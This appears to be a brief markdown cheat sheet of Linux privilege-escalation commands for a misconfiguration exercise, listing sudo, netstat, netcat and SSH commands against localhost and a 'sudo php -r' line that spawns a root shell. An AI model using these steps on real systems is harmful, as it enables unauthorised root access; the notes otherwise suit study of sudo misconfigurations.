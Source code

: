 # Misconfiguration

## Basic Commands
- **Switch User to user2**:  
  ```bash
  sudo -u user2 /bin/bash
  ```

- **List User Privileges**:  
  ```bash
  sudo -l
  ```

### Networking Commands
- **Check Active Connections**:  
  ```bash
  netstat -antpl
  ```

- **Connect to Localhost on Port 80**:  
  ```bash
  nc localhost 80
  ```

### SSH Commands
- **SSH into localhost as root on port 80**:  
  ```bash
  ssh -i id_rsa root@localhost -p 80
  ```

### PHP Command Execution

- **Execute a PHP Command**:  
  ```bash
  sudo php -r "system('/bin/bash');"
  ```
